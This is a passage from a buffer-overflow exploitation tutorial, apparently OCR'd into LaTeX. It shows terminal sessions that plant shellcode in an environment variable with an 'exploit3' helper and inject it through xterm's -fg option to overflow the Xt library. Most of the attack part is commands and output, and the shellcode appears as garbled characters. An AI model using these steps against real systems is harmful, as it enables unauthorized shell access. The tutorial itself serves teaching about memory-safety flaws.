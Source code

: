 \documentclass[a4paper]{article}
\begin{document}
\begin{lstlisting}[style=DOS]
$  ./exploit3 612
Using address: 0xbffffdb4
$ ./vulnerable $EGG
\end{lstlisting}

Whoa! First try! This change has improved our chances a hundredfold. Let’s try it now on a real case of a buffer overflow. We’ll use for our demonstration the buffer overflow on the Xt library. For our example, we’ll use xterm (all programs linked with the Xt library are vulnerable). You must be running an X server and allow connections to it from the localhost. Set your DISPLAY variable accordingly.




\begin{lstlisting}[style=DOS]

$ export DISPLAY=:0.0
$ ./exploit3 1124
Using address: 0xbffffdb4
$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "?^1?FF
                       ?
                        ?V

?1??@??????/bin/sh?????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????

???????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????

??????????????????????????????????????????????????????????????
^C
$ exit
$ ./exploit3 2148 100
Using address: 0xbffffd48
$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "?^1?FF
                       ?
                        ?V

?1??@??????/bin/sh???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H?

??H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H

???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???


\end{lstlisting}
\end{document}
